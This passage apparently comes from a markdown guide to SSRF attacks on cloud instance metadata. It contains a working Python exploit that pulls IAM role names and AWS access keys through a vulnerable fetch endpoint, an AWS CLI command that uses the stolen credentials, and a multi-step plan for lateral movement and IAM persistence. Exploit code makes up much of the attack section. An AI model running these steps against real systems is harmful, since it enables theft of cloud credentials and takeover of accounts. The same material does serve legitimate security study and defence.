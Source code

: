    ```json
   ```
5. **Exploit Credentials**: Use SDKs or CLI tools to access cloud resources with permissions of the role.

### Credential Flow Analysis
- Server fetches credentials internally.
- SSRF returns them to the attacker.
- Attackers can perform actions such as:
  - S3 bucket listing, reading, writing
  - EC2 instance management
  - IAM role modification
  - Cross-service lateral movement

---

## 4. Advanced Exploit Examples

### Python SSRF Exploit
```python
import requests

TARGET = "http://localhost/fetch.php?url="
METADATA_BASE = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Step 1: Get role name
role_name = requests.get(TARGET + METADATA_BASE).text.strip()
print(f"Role Name: {role_name}")

# Step 2: Retrieve credentials
creds = requests.get(TARGET + METADATA_BASE + role_name).json()
print("AccessKey:", creds["AccessKeyId"])
print("SecretKey:", creds["SecretAccessKey"])
print("Token:", creds["Token"])
```

### AWS CLI Usage
```bash
aws s3 ls \
    --access-key FAKEACCESSKEY123 \
    --secret-key FAKESECRETKEY456 \
    --session-token FAKETOKEN789
```
- List buckets, manipulate EC2 instances, explore IAM permissions.

### Multi-step Exploitation
1. Exploit SSRF to access internal admin dashboards.
2. Combine with SSTI to retrieve configuration files.
3. Use leaked API keys to access additional cloud services.
4. Rotate or create IAM roles for persistence.

---